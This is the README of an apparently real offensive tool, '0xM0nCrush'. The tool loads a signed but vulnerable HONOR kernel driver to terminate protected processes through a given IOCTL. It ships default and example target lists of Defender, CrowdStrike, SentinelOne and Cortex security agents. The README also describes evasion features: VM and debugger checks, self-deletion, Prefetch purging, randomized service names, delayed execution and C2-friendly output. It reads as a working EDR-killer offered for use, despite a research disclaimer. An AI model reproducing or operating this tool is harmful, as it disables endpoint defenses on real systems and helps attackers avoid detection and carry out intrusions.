



# 0xM0nCrush

A cross-version Windows process terminator. It loads a signed HONOR
kernel driver (`MonProcessEX.sys`), resolves the PID of every target
process, and terminates it from kernel context through a single IOCTL.
No kernel offsets, no PDB downloads, no build-specific shellcode - the
technique works identically on every Windows 10 and Windows 11 build.

The tool is a single self-contained executable. It installs the driver
through the Service Control Manager, performs the kill, then stops and
deletes the service, leaving no persistent artifact behind. Targets are
configurable at runtime through a config file, command line, or the
built-in defaults.

<p align="center">
  
</p>

> **Cross-version by design.** One driver, one IOCTL, one kill
> primitive. Works on all Windows 10 and Windows 11 builds.

## Quick start

```
1. Keep moncrush.exe and MonProcessEX.sys in the same folder.
2. Run from an elevated shell.

   moncrush.exe -n "notepad.exe,calc.exe"

3. Targets die. Driver unloads itself. Done.
```

No toolchain, no offsets, no build step.

## Demo

<p align="center">
  
</p>

## Features

| Feature | Details |
|---------|---------|
| Cross-version | Works on all Windows 10 and Windows 11 builds, no offsets |
| Kernel-mode kill | Driver terminates the PID from kernel context |
| PPL bypass | `MonProcessEX.sys` kill path bypasses protected-process checks |
| Signed driver | `MonProcessEX.sys` is a real signed HONOR driver |
| Not in MS block rules | Absent from Microsoft's vulnerable-driver block rules |
| Self-sufficient | Driver installed, started, and cleaned up via SCM |
| Zero dependencies | Static Rust binary; drop exe + driver, run |
| Configurable | `targets.conf` or `-n`, no recompile needed |
| Obfuscated | Device path and target list encrypted at rest |
| Single executable | One binary; console output from a shell, silent when double-clicked |
| Dry-run mode | Enumerate targets and PIDs before committing |
| Jittered loop | `--repeat` re-checks with randomized interval |
| Exit codes + JSON | C2-friendly automation interface |

## How it works

```
+-------------------------------------------------------------------------------------------+
| USER MODE                                                                                 |
|                                                                                           |
|   moncrush.exe                                                                            |
|                                                                                           |
|   +-------------------+      +-------------------+      +---------------------+           |
|   |   enumerate all   |      |   resolve target  |      |   match against     |           |
|   |   running         |  ->  |   PID via process |  ->  |   target list,      |           |
|   |   processes       |      |   entry           |      |   collect PIDs      |           |
|   +-------------------+      +-------------------+      +----------+----------+           |
|                                                                         |                 |
|                                     CreateFileW("\.\MonProcessEX")      |                 |
|                                     DeviceIoControl(IOCTL 0x22400C)     |                 |
|                                     output = termination status         v                 |
+-------------------------------------------------------------------------------------------+
| KERNEL MODE                                                                               |
|                                                                                           |
|   MonProcessEX.sys                                        signed HONOR kernel driver      |
|   +---------------------------------------------------------------------------------+     |
|   |                                                                                 |     |
|   |   IOCTL 0x22400C  ->  PID termination dispatch                                  |     |
|   |        |                                                                        |     |
|   |        |  kernel-mode process lookup                                            |     |
|   |        v                                                                        |     |
|   |   EPROCESS located -> terminated from kernel context                            |     |
|   |        |                                                                        |     |
|   |        v                                                                        |     |
|   |   process exit path invoked                                                     |     |
|   |                                                                                 |     |
|   +---------------------------------------------------------------------------------+     |
|                                                                                           |
|   CLEANUP                                                                                 |
|   +---------------------------------------------------------------------------------+     |
|   |   SCM service stopped and deleted                                               |     |
|   |   driver unloaded, no persistent artifact                                       |     |
|   +---------------------------------------------------------------------------------+     |
+-------------------------------------------------------------------------------------------+
```

<p align="center">
  
</p>

The driver exposes a kill IOCTL that terminates a process given its PID.
The user-mode component enumerates running processes, resolves each
target's PID, and submits it through the device interface. No kernel
structures are touched from user mode, so the technique is immune to
Windows version changes.

## Build

```powershell
cargo build --release --target x86_64-pc-windows-gnu
```

The release profile enables LTO and a single codegen unit. The project is
self-contained with its own `[workspace]` declaration.

## Usage

```
moncrush.exe [options]

  -s, --silent           suppress all console output
  -r, --repeat           keep running, re-check targets
  -d, --dry-run          enumerate targets without killing
  -j, --json             machine-readable JSON output
  -l, --list             print target names and exit
  -v, --version          print version and exit
  -x, --self-destruct    delete self after successful run
      --no-check         skip VM and debugger checks
      --delay <ms>       sleep before executing
      --jitter <ms>      randomize repeat interval
      --max-attempts <n> stop after n kill passes (0=infinite)
      --svc <name>       custom service name
      --driver <path>    custom driver file path
  -n, --names <csv>      comma-separated target list override
  -c, --config <path>    load targets from config file
  -h, --help             show this help
```

Exit codes: `0` ok, `2` no targets, `3` driver failed, `5` environment
abort. Target resolution order: `--names` > `--config` > `targets.conf`
(disk) > built-in defaults.

### Operational hardening

- **Environment checks.** Verifies the system is not a common
  virtualization environment before loading the driver. Bypass with
  `--no-check` when testing inside a VM.
- **Single instance.** A named mutex prevents two concurrent runs from
  racing IOCTLs into the driver.
- **Delayed execution.** `--delay <ms>` sleeps before doing anything,
  breaking time-correlation with initial execution.
- **Driver hygiene.** The driver is installed under a randomized service
  name and stopped and deleted on exit, leaving no persistent artifact.
- **Self-destruct.** `-x` deletes the executable and purges its Prefetch
  entry after a successful run.

## Configuration

The target list is fully configurable without recompiling:

**Config file.** Drop a `targets.conf` next to the executable, one
process name per line. Lines starting with `#` are ignored:

```
MsMpEng.exe
csfalconservice.exe
SentinelAgent.exe
cortex_agent.exe
```

A template ships as `targets.example.conf`.

**Command line.** `moncrush.exe -n "MsMpEng.exe,csfalconservice.exe"`

**Built-in defaults.** With no config and no flags, the built-in set is:

- calc.exe
- notepad.exe
- MsMpEng.exe
- MpDefenderCoreService.exe
- SecurityHealthService.exe
- MsSense.exe
- SenseIR.exe
- SenseCncProxy.exe
- SenseSampleUploader.exe

## Credits

- HONOR for the signed driver
- The LOLDDrivers project for cataloging signed vulnerable drivers
- BlackSnufkin for the original Ksapi64-Killer reproduction this builds on

## License

MIT. See [LICENSE](LICENSE).

## Disclaimer

This project is published for research and authorized testing only.
Loading unsigned or vulnerable drivers into a system you do not own is
illegal in most jurisdictions. You are responsible for compliance with
all applicable laws and with the authorization scope of the systems you
test.